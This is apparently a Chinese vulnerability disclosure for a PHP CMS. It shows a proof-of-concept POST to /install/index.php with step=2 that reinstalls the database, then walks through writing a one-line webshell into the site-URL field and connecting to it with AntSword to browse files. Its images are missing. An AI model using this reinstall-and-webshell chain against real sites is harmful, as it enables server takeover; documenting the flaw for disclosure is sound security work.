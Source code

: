 ​                                                                  系统重装漏洞

路由地址： /install/index.php  

找到可控变量$step，其中以POST数据提交

![img](images/图片1.png)

继续往下看发现step 为1,2,3,4，分别进入不同的php页面
![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps1.jpg)

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps2.jpg)

在step_2.php文件中发现step=2时，可以进入该页面

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps3.jpg) 

尝试burp提交数据2,3,4

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps4.jpg) 

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps5.jpg)

 

 

 

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps6.jpg) 

 

发现step=4时，结果为非法提交，然后从step=2，抓取进入数据按照页面，发现验证token

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps7.jpg) 

Poc：

POST /install/index.php HTTP/1.1

Host: zz.cms

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9

Content-Type: application/x-www-form-urlencoded

Cookie: PHPSESSID=l68f4rbt3n55lbrle4f531ba35

Connection: close

 

step=2



![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps16.jpg)

可以重装数据库

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps17.jpg) 

同时，发现填写数据库的信息是部分可控制的

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps18.jpg) 

发现如果更改框选部分内容，根据上面是无法连接数据库的，所以只能控制网站链接
![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps19.jpg)

在网站访问网址地址这一栏加入一句话木马

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps20.jpg) 

 

查看代码，发现一句话木马写入成功

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps21.jpg) 

使用蚁剑进行连接，链接成功

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps22.jpg) 

 

查看文件

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps23.jpg) 
